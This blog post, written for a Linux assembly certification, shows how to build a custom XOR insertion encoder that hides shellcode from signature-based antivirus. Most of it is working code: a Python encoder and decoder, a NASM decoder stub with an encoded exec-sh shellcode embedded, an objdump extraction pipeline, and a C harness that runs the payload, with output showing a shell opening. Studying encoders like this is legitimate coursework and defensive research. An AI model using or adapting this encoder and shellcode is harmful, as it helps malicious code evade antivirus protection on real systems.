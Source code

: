 
# Custom encoder for bypassing signature based detection

Malware detection techniques has improved a lot over the years. Today companies are investing in machine learning methods for detecting malware, which sounds pretty cool if you ask me. However, there is one method that has been used since the first anti-virus software, which is signature based detection.

When disassembling a program you can analyze the assembly instructions in order to understand the program from the lowest level. It's also possible from the assembly code to identify a set of unique instructions that identifies a specific program. These unique instructions form the signature. The instructions can be anything that identifies a specific and unique behaviour in the program. An example could be a decryption routine that identifies a decryption stub used for decrypting shellcode.

How do we bypass signature detections? Well, we change the signature. You either do this manually or you write an encoder which takes shellcode as input and outputs an encoded shellcode, which as zero known signatures for it. In this article, I will present a very easy and trivial encoding scheme for hiding from AVs :)

## The Algorithm

The scheme I have chosen is a simple insertion encoder with XOR twist. Given a piece of shellcode, the encoder will generate a random value K<sub>n</sub> between 1-255 for each shellcode byte S<sub>n</sub>. Each random value will be XORed with with each shellcode byte, like so: K<sub>1</sub> ^ S<sub>1</sub> = R<sub>1</sub>. The original shellcode will be modified to include the random value as a prefix for the now encoded shellcode byte. The final shellcode can be seen as:

```
[K1][R1][K2][R2][K3][R3]...[KN][RN]
```

Even though it is a trivial obfuscation technique, it has some drawbacks:

- It will double the shellcode length 
- Once the shellcode has been decoded, a bunch of garbage data will exist following the shellcode. This means that if your shellcode does not return, the garbage data will be executed which leads to a segfault.

However, for demonstrating how bypassing signature detection can look like, this method will suffice.

## The Encoder

I have chosen to write the encoder in Python because it's very easy to implement these kinds of scripts with it.

```python
import sys
import random

def encode(shellcode):
    """
    shellcode: string

    returns: string
    """
    shellcode_output = ""
    shellcode_list = []
    for i in shellcode.split("\\")[1:]:
        xor_key = random.randint(1,254)
        hex_key = hex(xor_key)
        byte = int(i.replace("x", "0x"), 16)
        shellcode_list.append(hex_key)
        shellcode_list.append(hex(xor_key ^ byte))

    return ",".join(shellcode_list)

def decode(encoded_shellcode):
    """decode()
    encoded_shellcode: string

    returns: string
    """
    shellcode_list = encoded_shellcode.split(",")
    it = iter(shellcode_list)
    decoded_shellcode = []
    for x in it:
        decoded_shellcode.append(hex(int(x, 16) ^ int(next(it), 16)))
    return ",".join(decoded_shellcode)

def main(shellcode):
    """main()
    shellcode: string
    """
    orginal_shellcode = r"{}".format(shellcode)
    new_shellcode = encode(orginal_shellcode)
    print("[+] Your encoded shellcode: ")
    print(new_shellcode)
    print("\n[+] Decoded shellcode:")
    decoded_shellcode = decode(new_shellcode)
    print(decoded_shellcode)
    assert decoded_shellcode.replace("0x","\\x").replace(",","") == orginal_shellcode.replace("\\x0", "\\x")


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 wrapper.py <shellcode>")
        sys.exit(0)

    if len(sys.argv) == 2:
        main(sys.argv[1])

```

To use the program, simply input your shellcode and receive the encoded version:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ python3 wrapper.py "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encoded shellcode:
0x77,0x8b,0x4a,0xf1,0xdb,0xc0,0x5,0x94,0xe7,0x2a,0x43,0x8b,0x93,0x78,0x73,0x7f,0x38,0x66,0xe5,0xb3,0x14,0x25,0x2d,0x33,0x6b,0xc6,0xc5,0xc4,0x56,0x95,0x8d,0x8,0x2f,0xef,0xd,0x78,0x9f,0x68,0x7a,0xb9,0xd7,0x3f,0xf5,0x1a,0xba,0x45,0x2,0xfd,0x93,0x6c,0xe3,0xc9,0xee,0xad,0x93,0xc,0xb5,0x15,0xe3,0xc1,0xe,0x42,0xbd,0xee,0xf8,0xa1,0xaf,0x7d,0x65,0xd8,0x24,0x98,0x86,0x7d,0xb1,0xfa,0xf8,0xb3,0x96,0xb7,0x2a,0xe0,0x27,0x65,0x69,0x13,0x3a,0x5c,0x55,0xc8,0x1,0x5e,0x59,0xe9,0x7a,0x9c,0xd7,0x9,0xb2,0xed,0xc5,0x8f,0xd4,0x33,0xfa,0x24

[+] Decoded shellcode:
0xfc,0xbb,0x1b,0x91,0xcd,0xc8,0xeb,0xc,0x5e,0x56,0x31,0x1e,0xad,0x1,0xc3,0x85,0xc0,0x75,0xf7,0xc3,0xe8,0xef,0xff,0xff,0xff,0x2a,0x43,0x9f,0xa0,0x22,0x4c,0x53,0x59,0xd2,0xbd,0xbc,0xfb,0x4b,0x4b,0x21,0xca,0x42,0x7a,0x66,0x9d,0x5f,0xb0,0xe6,0xde,0x5f,0x4a,0xe7,0xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$
```

The shellcode used in the example above is a simple `exec-sh` shellcode which will drop into an `sh` shell.

## Writing the decoder stub

It's time to write the decoder stub. The following is a simple program for looping through the shellcode, XORing bytes and reconstructing the original shellcode.

```asm
;-------------------------------------
;
; Author: dubs3c
;
; Purpose:
; Insertion Encoder, hide from AV :)
;
;-------------------------------------

global _start

section .text
_start:
    jmp short call_shellcode        ; jmp-call-pop method

decoder:
    pop esi                         ; Get the address of EncodedShellcode
    lea edi, [esi + 1]              ; edi points to the next byte
    xor eax, eax                    ; zero out register
    xor ebx, ebx                    ; zero out register
    xor edx, edx                    ; zero out register
    xor ecx, ecx                    ; zero out register

decode:
    mov bl, byte [esi + eax]        ; Get the byte at esi + eax
    xor bl, 0xaa                    ; XOR with 0xaa to check if we are at the end of the shellcode
    jz short EncodedShellcode       ; If we are at the end, we are done, jump to shellcode
    mov dl, byte [esi + eax]        ; Get the byte at esi + eax
    mov bl, byte [esi + eax + 1]    ; Get the byte at esi + eax + 1
    xor dl, bl                      ; XOR to get orignal shellcode byte
    mov byte [esi + ecx], dl        ; Overwrite EncodedShellcode at byte esi + ecx with the result
    add al, 2                       ; Add 2 to eax to jump to the next pair of bytes
    inc ecx                         ; increment ecx which byte to overwrite in EncodedShellcode
    jmp short decode                ; loop back to decode

call_shellcode:
    call decoder
    EncodedShellcode: db 0x1,0xfd,0xa2,0x19,0x60,0x7b,0x7d,0xec,0xac,0x61,0xac,0x64,0x31,0xda,0x2b,0x27,0xb1,0xef,0xd,0x5b,0x66,0x57,0xa5,0xbb,0xc7,0x6a,0xac,0xad,0x41,0x82,0x7a,0xff,0x5,0xc5,0xf4,0x81,0xf1,0x6,0x99,0x5a,0x54,0xbc,0xac,0x43,0x28,0xd7,0x4,0xfb,0x1b,0xe4,0x11,0x3b,0x35,0x76,0xdc,0x43,0x57,0xf7,0x4f,0x6d,0xe1,0xad,0xd7,0x84,0x6c,0x35,0x62,0xb0,0x7b,0xc6,0x7f,0xc3,0x80,0x7b,0x1f,0x54,0x45,0xe,0xa9,0x88,0x97,0x5d,0x84,0xc6,0xe9,0x93,0x6c,0xa,0x6f,0xf2,0x7a,0x25,0xe0,0x50,0x88,0x6e,0x3b,0xe5,0x56,0x9,0x6f,0x25,0xae,0x49,0xe3,0x3d,0xaa,0xaa
```

The program can be assembled with nasm:

```bash
nasm -f elf32 -o build/ass4.o ass4.nasm
ld -z execstack -N -o build/ass4 build/ass4.o
```

Because I have specified the `-N` option, the code section is now writable and we can run the executable.
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/ass4
$ whoami
dubs3c
$
```

We can also convert this program into shellcode and use it in e.g. a stager:
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ objdump -d ./build/ass4|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"
```

The shellcode could be embedded in a simple C program that will execute the decoder program, containing our `exec-sh` shellcode.

```c
#include<stdio.h>
#include<string.h>


unsigned char shellcode[] = "\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"; 

main()
{
        printf("Shellcode length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

The program can be compiled like this:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ gcc -fno-stack-protector -z execstack shellcode.c -o build/shellcode
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/shellcode
Shellcode length:  152
$ whoami
dubs3c
$
```

That's it, we have created a simple encoder for automatically changing the signature of our shellcode.

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490

